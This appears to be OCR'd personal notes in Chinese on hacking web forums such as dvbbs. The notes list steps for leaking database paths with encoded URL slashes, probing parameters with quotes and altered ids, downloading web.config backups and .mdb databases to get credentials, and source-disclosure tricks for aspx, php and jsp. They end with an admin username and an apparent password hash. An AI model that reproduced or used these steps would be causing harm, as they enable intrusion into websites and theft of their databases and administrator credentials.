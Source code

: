 隐私设置：接受所有cookie

高级选项：去掉：显示友好的http错误信息，500：内部错误

C:\papaguestbook\include\data\\#baba@yaoyao520.mdb

\#：%23

%:%25

':%27

关闭xss筛选：



一。入侵论坛：dvbbs

user and pass--&gt;数据库：下载：位置--》暴库

1.www.xx.com/bbs/a.asp:第二个/换为%5c=\

2.www.xx.com/include/conn.asp

3.加单引号：

4.id=1 修改；

id=999999

id=a

id\[\]=1

5.aspx:.net web.config--&gt;任意文件下载，web.config.bak

数据库连接用户和密码

6.aspx:脚本前加~ ~a.aspx

7.php:config.inc.php

8.jsp:%81,www.xx.com/noexit.jsp;.JSP .js%2570

/WEB\_INF/.class java反编译

 dvbbs:

1.domain:旁注检测--网站批量检测：页面全选：添加指定网址：www.dvbbs.com

检测漏洞：

1）.上传：不可利用

2\).数据库：位置--右键--打开网址---下载到桌面

3\).后台登录：不可用

2.分析数据库：domain--数据库管理--打开：

dv\_admin

username:admin

password:3eef656b9031990f
